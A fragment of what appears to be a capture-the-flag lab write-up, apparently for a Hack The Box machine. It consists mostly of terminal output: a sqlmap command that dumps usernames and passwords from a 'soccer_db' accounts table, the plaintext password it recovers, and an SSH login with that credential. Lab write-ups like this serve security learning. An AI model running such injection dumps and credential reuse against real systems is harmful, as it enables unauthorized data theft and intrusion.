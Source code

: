 ``` bash

```

``` bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
```
``` bash
[20:42:01] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[20:42:29] [INFO] adjusting time delay to 3 seconds due to good response times
PlayerOftheMatch2022
[20:46:15] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```
``` bash
❯ ssh player@10.10.11.194
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 11 19:48:38 UTC 2023

  System load:           0.0
  Usage of /:            70.3% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             240
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:457a

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jan 11 18:10:14 2023 from 10.10.14.82
-bash-5.0$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```